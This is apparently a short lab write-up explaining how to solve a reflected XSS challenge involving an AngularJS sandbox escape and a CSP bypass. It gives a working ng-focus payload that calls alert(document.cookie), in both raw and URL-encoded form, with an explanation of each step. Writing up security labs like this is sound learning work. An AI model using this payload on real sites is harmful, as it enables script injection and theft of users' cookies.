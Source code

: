 
### Reflected XSS with AngularJS sandbox escape and CSP : EXPERT

---

> What happens here is that there is a CSP in place.
> To escape the angularjs sandbox, we need to use the `ng-focus` event that bypasses the CSP.

```
<input id=x ng-focus=$event.composedPath()|orderBy:'(z=alert)(document.cookie)'>#x';
```
> What this payload does is that it creates an input field with an id of x.
> And gives it the event property of focus, and a function z that holds the alert function, with the parameter `document.cookie`.
> In the end, it focuses to x using `#x` causing the event to trigger and the alert to fire.

> For it to properly work, we need to encode the angle brackets, spaces, and qoutes.
```
%3Cinput%20id=x%20ng-focus=$event.composedPath()|orderBy:%27(z=alert)(document.cookie)%27%3E#x';
```

---
